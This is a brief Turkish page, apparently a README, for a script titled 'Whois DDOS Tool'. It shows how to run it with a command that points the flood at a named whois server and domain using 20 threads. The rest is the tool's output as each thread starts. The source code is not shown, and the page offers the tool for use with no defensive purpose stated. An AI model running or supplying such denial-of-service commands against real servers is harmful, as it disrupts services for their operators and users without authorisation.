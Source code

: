  
Whois DDOS Tool
----------------

Betik asagidaki sekilde calistirilmaktadir.

./whois_ddos.py -h whois.nicproxy.com agguvenligi.net 20
0 : thread is started ... 
1 : thread is started ... 
2 : thread is started ... 
3 : thread is started ... 
4 : thread is started ... 
5 : thread is started ... 
6 : thread is started ... 
7 : thread is started ... 
8 : thread is started ... 
9 : thread is started ... 
10 : thread is started ... 
11 : thread is started ... 
12 : thread is started ... 
13 : thread is started ... 
14 : thread is started ... 
15 : thread is started ... 
16 : thread is started ... 
17 : thread is started ... 
18 : thread is started ... 
19 : thread is started ... 

